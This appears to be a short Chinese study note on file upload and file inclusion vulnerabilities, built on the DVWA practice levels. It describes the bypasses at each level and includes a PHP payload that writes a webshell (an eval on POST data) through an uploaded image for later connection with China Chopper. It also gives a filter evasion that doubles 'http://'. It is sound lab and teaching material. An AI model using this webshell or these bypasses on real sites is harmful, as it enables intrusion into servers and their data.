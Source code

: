 ```yaml
---
title: Web文件上传与包含漏洞
author: 阿航
date: 2020-9-26 18:30:00 +0800
categories: [网络安全,Web]
tags: web安全


---
```




#### 文件上传漏洞:

- low 无验证文件格式，直接上传一句话木马。

- medium 限制jpeg格式，浏览器设置代理(本地ip或者其它)，用burp-suite拦截文件上传请求，修改content-type的值。

- high 通过文件后缀名来限制上传文件类型。

  ------

  

#### 文件包含漏洞：

- 本地文件包含`(LFI) e.g.`   ?page=`index.php` 等等

  1.`low`   通过`edjpgom` 工具将

  ```
  <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[yangge]);?>') ?>
  ```

  代码写入图片中，先上传图片再通过文件包含生成`shell20.php` 文件,菜刀连接此文件获取`webshell` 。

  2.`medium` 中安全级别， 会删除`http`://, 此时需写成`hthttp://tp://`形式。
  3.`high` 将包含文件名写死。

- 远程文件包含`(RFI) e.g.`  ？page=`/www.baidu.com/var/dvw`等。

  ![image-20200929192717013](C:\Users\lxh\AppData\Roaming\Typora\typora-user-images\image-20200929192717013.png

  ------


